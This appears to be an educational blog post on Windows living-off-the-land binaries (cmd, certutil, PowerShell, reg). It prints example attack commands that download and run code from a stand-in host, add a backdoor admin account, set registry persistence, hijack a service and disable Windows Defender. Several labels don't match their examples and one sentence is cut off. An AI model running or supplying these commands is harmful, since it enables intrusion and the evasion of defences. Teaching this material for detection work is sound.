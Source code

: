 ```yaml
---
layout: post
title: "Exploring Living Off The Land Binaries and Techniques"
date: 2024-03-26
category: write-ups
image: '/assets/images/10btGIciM2lFvwZTYlH5t6w.png'
tags: [write-ups, educational]
---
```


# Exploring A Few Living-Off-The-Land Binaries and Techniques

#### Living off the Land (LOTL) Binaries, Windows

![Courtesy of DALL-E, prompt provided by Grant Wilsey (darkyolks)](/assets/images/10btGIciM2lFvwZTYlH5t6w.png)

When it comes to avoiding detection and maintaining access to a newly hacked system, attackers can become very resourceful. They will often employ techniques that leverage existing system tools on the system to remain hidden, maintain persistence, escalation privileges and exfiltrate data from the target. One such strategy is known as “Living off the Land” (LOTL), where attackers utilize legitimate binaries already present on the target system to execute malicious activities, making it harder for traditional security solutions to detect their actions. I’m interested in learning more about Living-off-the-land techniques, so in this blog post we’ll explore the concept of LOTL binaries and showcase a few simple examples that exploit native Windows capabilities.

### Understanding LOTL Binaries

LOTL binaries refer to legitimate executables found on operating systems that attackers repurpose for malicious activities. These binaries are part of the operating system’s standard toolkit and are trusted by security mechanisms, making them ideal for stealthy attacks. By leveraging LOTL binaries, attackers can evade detection and blend in with normal system operations, making it challenging for security analysts to identify their malicious activities.

#### A Few Examples of Living-Off-The-Land Binaries

#### 1. cmd.exe

`cmd.exe`is the standard command-line interpreter on Windows systems. Attackers can abuse this binary for various malicious purposes, such as executing commands, downloading files, or launching other processes. I gather several examples of how cmd.exe can be misused, or rather used with normal functionality except with malicious intent:

**Example 1: Command Execution**

```
cmd.exe /c net user hacker P@ssw0rd123 /add
```

In this example, an attacker that already likely has administrator privileges creates a new user account named “darkyolks” with the password “P@ssw0rd123” using the `net user` command executed via `cmd.exe`. This is a simple way yet effective way that adversaries use native features within Windows environments to maintain persistence.

![](/assets/images/13eGihN7zYK51S0HjGHWq1g.png)

Successful user creation via cmd.exe

![](/assets/images/1FRUnF4LCq2GAZnM8l55Uwg.png)

Denied user creation due to invalid privileges.

Proper logging set up for **Windows Event ID 4720** — “A User was created” is one way to detect this type of persistence.

**Example 2: Downloading Files**

```
cmd.exe /c powershell.exe -c “Invoke-WebRequest -Uri http://malicious.com/malicious.exe -OutFile C:\Temp\malicious.exe”
```

Here, the attacker uses `cmd.exe` to invoke **PowerShell** and download a malicious executable from a remote server. `powershell.exe` and `certutil.exe` are LOTL binaries themselves. Malicious.com/malicious.exe is quite suspicious.

#### 2. certutil.exe

`certutil.exe` is a command-line utility for managing digital certificates in Windows. While primarily used for legitimate purposes, attackers can abuse **certutil.exe** for file decoding/encoding and data exfiltration.

**Example 1: Data Exfiltration**

```
certutil.exe -urlcache -split -f http://malicious.com/secret.txt C:\Temp\secret.txt
```

In this example, the attacker uses `certutil.exe` to download a file (secret.txt) from a remote server and save it to the local system.

**Example 2: Encoding and Decoding Files with certutil.exe**

Another trick is using `certutil.exe` for encoding and decoding files, which can obfuscate malicious payloads to evade detection. Here's how you can encode a file:

```
certutil -encode payload.exe encoded_payload.txt
```

To decode the encoded file:

```
certutil -decode encoded_payload.txt decoded_payload.exe
```
#### 3. powershell.exe

`powershell.exe`is a powerful scripting environment built into Windows systems. Attackers commonly abuse PowerShell for various malicious activities, including command execution, file manipulation, and lateral movement. This binary will work similar to `cmd.exe`, as shown in previous examples when PowerShell was called via the command line.

**Example: Command Execution**

```
powershell.exe -ExecutionPolicy Bypass -Command “& {Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://malicious.com/script.ps1')}"
```

Similar to the `cmd.exe` example, an attacker uses `powershell.exe` to bypass execution policies then download and execute a malicious PowerShell script (script.ps1) from a remote server.

#### 4. reg.exe

`reg.exe` is a built-in Windows utility designed to manipulate the system registry. The system registry a hierarchical database that stores configuration settings and options on Microsoft Windows operating systems. Attackers may abuse `reg.exe` to modify registry keys related to system configurations, user settings, or installed software. By altering these keys, they can achieve persistence, escalate privileges, or even disable security mechanisms.

**Example 1: Achieving Persistence**  
`reg.exe` provides attackers with a convenient way to establish persistence by adding entries to the Windows registry that execute their malicious payloads during system startup.  
Example:

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousProgram /t REG_SZ /d “C:\Malware\malware.exe” /f
```

In this example, the attacker uses `reg.exe` to add a registry entry under the current user’s `Run` key. This entry specifies the path to the malicious executable (malware.exe), ensuring that it runs every time the user logs in.

**Example 2: Escalating Privileges**

Privilege escalation is another common goal for attackers, as it grants them higher levels of access to the system and potentially allows them to execute more impactful attacks. The binary `reg.exe` can be exploited to escalate privileges by manipulating registry keys associated with system services or user accounts.

```
  
reg add “HKLM\SYSTEM\CurrentControlSet\Services\SomeVulnerableService” /v ImagePath /t REG_EXPAND_SZ /d “C:\Malware\malware.exe” /f
```

In this scenario, the attacker modifies the ‘*ImagePath’* value of a vulnerable system service using `reg.exe`. By replacing the legitimate service executable with their malicious payload (malware.exe), they can execute arbitrary code with elevated privileges the next time the service starts.

**Example 3: Disabling Security Software**

Attackers often seek to disable or bypass security software installed on the compromised system to evade detection and maintain their foothold. The binary `reg.exe` provides attackers with the ability to modify registry keys related to security software settings or configurations.

```
reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender” /v DisableAntiSpyware /t REG_DWORD /d 1 /f  
  

```

This command adds a registry key `DisableAntiSpyware` under `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender` and sets its value to `1`, which effectively disables Windows Defender permanently.

![](/assets/images/14Gcm4MXLkloUHAptSBmtWA.png)

Disabling Windows Defender with reg.exe via command line.

This screenshot shows the command executing successfully. Note the user running the command needs to be running with administrator privileges in order to make changes to the registry. An attacker may have already escalated their privileges to modify the registry at this stage of their attack.

### Conclusion

Living off the land binaries pose a significant challenge for defenders due to their legitimate nature and widespread use. By understanding the differences of legitimate binaries and malicious ones, analysts are tasked with triaging the events and piecing together the actions taken post-compromise. This essential skills protects

By adopting a proactive approach to security and leveraging threat intelligence, organizations can stay one step ahead of cyber adversaries and mitigate the risks associated with living off the land attacks.

For further research and exploration of LOTL binaries, the [LOLBAS project](https://lolbas-project.github.io/) provides a comprehensive repository of common LOTL binaries and their respective use cases in offensive security scenarios.



By [darkyolks](https://www.darkyolks.com) originally published on March 26, 2024.

